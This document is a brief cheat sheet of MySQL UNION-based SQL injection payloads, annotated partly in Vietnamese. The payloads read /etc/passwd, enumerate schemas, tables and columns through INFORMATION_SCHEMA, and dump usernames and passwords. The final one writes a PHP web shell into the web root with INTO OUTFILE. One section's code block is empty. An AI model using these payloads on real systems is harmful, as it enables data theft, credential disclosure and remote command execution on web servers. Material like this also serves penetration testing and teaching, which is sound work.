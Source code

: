 # MY SQL INJECTION

## User
`USER()`

## Load_File
- Read system file 

```sql
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```
- Read source code file in server => path apache web ( /var/www/html/...php )
```sql

```

## Version
`@@version`

## Database 
```sql
' UNION SELECT 1,SCHEMA_NAME,3,4 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```

- Columns **SCHEMA_NAME** chứa all tên của database hiện tại
- Metadata **INFORMATION_SCHEMA** siêu dữ liệu database và table trên server 
- Table **SCHEMA** chứa tên all database
- Ta cũng có thể lấy tên database hiện tại qua hàm **database()**

```sqli
' UNION select 1,database(),2,3-- -
```

## TABLES
```sql
' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

- Columns **TABLE_NAME* chứa all tên của tables hiện tại
- Colums **TABLE_SCHEMA** chứa tên csdl của tables đang trỏ đến
- Table **INFORMATION_SCHEMA.TABLES** siêu dữ liệu chứa all table trên server 
- table_schema='dev' ví dụ ta có tên csdl là dev và truy vấn all các table trên csdl dev đó 

## Columns 
```sql
' UNION select 1,COLUMN_NAME,TABLE_NAME,4 from INFORMATION_SCHEMA.COLUMNS where table_name='devss'-- -
```

- Columns **COLUMN_NAME* chứa all tên của columns hiện tại trên table 
- Table **INFORMATION_SCHEMA.COLUMNS** siêu dữ liệu chứa all column trong table
- table_name='devss' ví dụ ta lấy được tên table là devss và truy vấn all các columns trên tables devss đó thông qua metadata column 

## DATA
```sql
' UNION select 1, username, password, 4 from dev.devss-- -
```

- dev.devss là tables hiện tại csdl_name.table_name

## Write file 
- SELECT .. INTO OUTFILE 'path_file' statement can be used to write data from select queries into file
Ex1: select queries usernamae in table users and save output into /var/www/html/username file
`SQL query :`
```sql
select user from users into outfile '/var/www/html/username';
```

`Cmd`
```cmd
cat /var/www/html/username 
>
1. admin
2. user1
3. user2
```
Ex2: 
```sql
SELECT 'hello' INTO OUTFILE '/var/test.txt';
```

## Web shell
```sql
' union select 1,'<?php system($_REQUEST[0]); ?>',3 ,4 into outfile '/var/www/html/shell.php'-- - 
```

